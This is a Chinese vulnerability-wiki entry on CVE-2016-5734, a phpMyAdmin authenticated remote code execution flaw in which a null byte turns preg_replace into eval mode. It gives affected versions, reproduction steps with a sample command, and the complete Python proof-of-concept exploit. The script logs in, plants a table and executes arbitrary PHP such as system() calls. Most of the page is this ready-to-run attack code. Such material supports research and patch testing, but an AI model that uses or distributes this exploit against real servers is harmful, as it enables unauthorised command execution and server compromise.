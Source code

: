 （CVE-2016-5734）Phpmyadmin 后台远程命令执行漏洞
================================================

一、漏洞简介
------------

在PHP5.4.7以前，preg\_replace的第一个参数可以利用\\0进行截断，并将正则模式修改为e。众所周知，e模式的正则支持执行代码，此时将可构造一个任意代码执行漏洞。

二、漏洞影响
------------

4.0.10.16之前4.0.x版本4.4.15.7之前4.4.x版本4.6.3之前4.6.x版本（实际上由于该版本要求PHP5.5+，所以无法复现本漏洞）

三、复现过程
------------

这个功能需要登录，且能够写入数据。

因为目标环境使用root，所以我们可以创建一个临时数据库和数据表，进行漏洞利用。这里，我们使用POC来复现漏洞。

    ./cve-2016-5734.py -c 'system(id);' -u root -p root -d test http://www.0-sec.org:8080/

![VS4QW3R595\~78N763.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-5734)Phpmyadmin后台远程命令执行漏洞/media/rId24.png)

-d是已经可以写的数据库，-c是待执行的PHP语句，如果没有指定表名，这个POC会创建一个名为`prgpwn`的表。

### poc

    #!/usr/bin/env python

    """cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
    Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
    CVE: CVE-2016-5734
    Author: https://twitter.com/iamsecurity
    run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
    """

    import requests
    import argparse
    import sys

    __author__ = "@iamsecurity"

    if __name__ == '__main__':
        parser = argparse.ArgumentParser()
        parser.add_argument("url", type=str, help="URL with path to PMA")
        parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
        parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
        parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
        parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
        parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
        arguments = parser.parse_args()
        url_to_pma = arguments.url
        uname = arguments.user
        upass = arguments.pwd
        if arguments.dbs:
            db = arguments.dbs
        else:
            db = "test"
        token = False
        custom_table = False
        if arguments.table:
            custom_table = True
            table = arguments.table
        else:
            table = "prgpwn"
        if arguments.cmd:
            payload = arguments.cmd
        else:
            payload = "system('uname -a');"

        size = 32
        s = requests.Session()
        # you can manually add proxy support it's very simple ;)
        # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
        s.verify = False
        sql = '''CREATE TABLE `{0}` (
          `first` varchar(10) CHARACTER SET utf8 NOT NULL
        ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
        INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
        '''.format(table)

        # get_token
        resp = s.post(url_to_pma + "/?lang=en", dict(
            pma_username=uname,
            pma_password=upass
        ))
        if resp.status_code is 200:
            token_place = resp.text.find("token=") + 6
            token = resp.text[token_place:token_place + 32]
        if token is False:
            print("Cannot get valid authorization token.")
            sys.exit(1)

        if custom_table is False:
            data = {
                "is_js_confirmed": "0",
                "db": db,
                "token": token,
                "pos": "0",
                "sql_query": sql,
                "sql_delimiter": ";",
                "show_query": "0",
                "fk_checks": "0",
                "SQL": "Go",
                "ajax_request": "true",
                "ajax_page_request": "true",
            }
            resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
            if resp.status_code == 200:
                if "success" in resp.json():
                    if resp.json()["success"] is False:
                        first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                        error = first[:first.find("</code>")]
                        if "already exists" in error:
                            print(error)
                        else:
                            print("ERROR: " + error)
                            sys.exit(1)
        # build exploit
        exploit = {
            "db": db,
            "table": table,
            "token": token,
            "goto": "sql.php",
            "find": "0/e\0",
            "replaceWith": payload,
            "columnIndex": "0",
            "useRegex": "on",
            "submit": "Go",
            "ajax_request": "true"
        }
        resp = s.post(
            url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
        )
        if resp.status_code == 200:
            result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
            if len(result):
                print("result: " + result)
                sys.exit(0)
            print(
                "Exploit failed!\n"
                "Try to manually set exploit parameters like --table, --database and --token.\n"
                "Remember that servers with PHP version greater than 5.4.6"
                " is not exploitable, because of warning about null byte in regexp"
            )
            sys.exit(1)
